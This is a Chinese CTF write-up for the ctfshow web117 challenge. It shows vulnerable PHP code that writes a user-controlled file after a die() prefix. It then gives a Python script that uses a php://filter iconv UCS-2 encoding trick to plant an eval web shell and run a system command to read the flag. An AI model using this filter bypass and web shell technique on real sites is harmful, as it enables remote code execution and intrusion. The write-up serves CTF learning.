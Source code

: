 呃呃

![image-20221220170446559](CTFshow_vip.assets/image-20221220170446559.png)

### web117

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

和web87类似，只不过base64和rot13用不了了，但是还有别的编码可用

继续抄脚本

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/2/21 12:29
# blog: www.wlhhlc.top
import requests

url = "http://7dcf93ca-c672-413a-915f-ff85f758121f.challenge.ctf.show/"
get_data = "php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=dotast.php"
get_url = url + "?file=" + get_data
data = {
    'contents': '?<hp pe@av(l_$OPTSd[tosa]t;)>?'
}
res = requests.post(url=get_url, data=data)
shell_url = url + "dotast.php"
test = requests.get(shell_url)
if(test.status_code == 200):
    print("[*]getshell成功")
    shell_data = {
        'dotast': 'system("cat flag.php");'
    }
    result = requests.post(url=shell_url, data=shell_data)
    print(result.text)
```
